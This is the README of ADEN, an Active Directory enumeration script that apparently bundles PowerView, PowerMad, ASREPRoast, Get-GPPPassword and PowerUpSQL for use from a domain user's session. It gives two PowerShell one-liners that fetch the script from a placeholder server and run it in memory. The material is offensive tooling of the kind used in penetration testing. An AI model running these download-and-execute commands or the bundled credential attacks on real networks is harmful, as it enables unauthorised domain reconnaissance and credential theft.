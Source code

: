 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are not a local admin in the domain, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to map the environment.\
\
From a local admin user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks for local admins.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 
